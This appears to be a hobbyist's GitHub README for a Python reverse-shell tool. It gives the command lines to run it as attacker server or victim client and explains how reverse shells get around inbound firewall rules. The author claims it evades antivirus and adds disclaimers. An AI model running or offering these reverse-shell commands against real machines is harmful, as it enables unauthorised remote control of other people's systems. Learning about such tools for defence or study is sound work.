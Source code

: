 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

## To run as a server:
```
  python3 rshell.py -m server -p port_number
```
## To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# Well, so how does it work?

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the hosted port by the server.

Unlike normal shells or also known as "bind shell", in which an innocent server simply allow an user to connect and the malicous user client can send payloads to attack the server node, in reverse shell, the server program acts as a malicous endpoint and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the in-bound policy can be set relatively loosely or set with no in-bound policy at all so that client can easily access to the server, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



Bind Shell:

Server (Victim) ---------|Firewall|<<---------Client (Attacker)

It is easy to fail to make connection if an out-bound policy of firewall is well set.

Reverse Shell:

Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)

Attacker set no in-bound policy so that victims can freely connect to the trap server.

So, a reverse shell is just a shell that uses common firewall's counter-exploitative nature.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.


# A Very Long Disclaimer: 

I am not responsible for any real / potential damage by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.




